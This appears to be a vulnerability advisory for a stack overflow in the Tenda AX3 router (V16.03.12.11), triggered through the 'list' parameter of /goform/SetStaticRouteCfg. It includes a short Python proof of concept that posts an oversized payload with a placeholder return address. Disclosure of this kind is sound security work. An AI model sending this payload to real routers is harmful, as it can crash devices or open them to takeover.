

# Stack Overflow Vulnerability in Tenda Router AX3 (V16.03.12.11)

## Overview

A stack overflow vulnerability exists in the latest version V16.03.12.11 of the Tenda Router AX3. This vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf` call, where improper input parameters from the `/goform/SetStaticRouteCfg` page lead to data being concatenated onto the stack without any checks.

## Vulnerability Details

In the latest version `V16.03.12.11` of the Tenda Router AX3, a vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf`. 

When handling requests from the `/goform/SetStaticRouteCfg` page, the construction of the parameter list can influence the `save_staticroute_data` function, causing input to be concatenated onto the stack by the `sscanf` function without any checks, leading to a stack overflow. 




With appropriate parameter construction, this can result in denial of service (DoS) and remote code execution (RCE).

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetStaticRouteCfg"

retaddr="bbbb"
payload = "1,2,3,"+"a"*0x674+p32(retaddr)
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo


